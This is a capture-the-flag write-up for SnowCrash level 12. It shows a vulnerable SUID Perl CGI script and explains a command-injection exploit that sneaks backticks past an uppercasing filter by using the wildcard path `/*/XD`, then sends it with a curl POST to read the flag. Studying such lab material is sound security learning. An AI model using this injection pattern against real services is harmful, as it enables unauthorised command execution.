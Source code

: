 # Level12

Only one file is present in home directory of the `level12` user witch is a script named `level12.pl`. The **SUID** bit is set and the owner is user `flag12`.

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

This is the same scenario as **Level04** with backquote interpretation/escaping. A **perl** script is running on `localhost`, port `4646`. There are two functions `sub n` and `sub t`. The output of `sub t` is passed as parameter to `sub n`.

The part that is interesting for us is the `` @output = `egrep "^$xx" /tmp/xd 2>&1`; `` in the `sub t` function.   The function is called with two parameters wich are passed trough **CGI**. The `x` and `y` parameters are then respectively affected locally to a `$xx` and a `$nn` variable.

A bit of substitution is done on the `$xx` variable and is then used in the `egrep` command.

All lowercase letters are replaced buy uppercase letters `hello there -> HELLO THERE`. 

Then all matches to occurrences of a space followed by any characters are removed. In other terms, if a space is encountered, everything that follows is removed including the space `HELLO THERE -> HELLO`.

Getting back to our `` @output = `egrep "^$xx" /tmp/xd 2>&1`;`` line. By sending two backquotes as the `x` parameter will make the  command look like this: `` `egrep "` `" /tmp/xd 2>&1`; ``. First `egrep "` will be evaluated, then `"/tmp/xd 2>&1` will be evaluated. The two executions will fail with syntax errors for unexpected EOF while looking for matching double quote.

The best option we have is to put a valid command between the two backquotes, but remember that our parameter `x` is **altered with substitutions**. We can take advantage of the wildcard `*` expansion to access to the `/tmp` folder and execute a file named in uppercase as follows:

```
level12@SnowCrash:~$ echo 'getflag > /tmp/flag.txt' > /tmp/XD && chmod +x /tmp/XD && curl -X POST -d 'x=`/*/XD`' http://localhost:4646 && cat /tmp/flag.txt
..Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
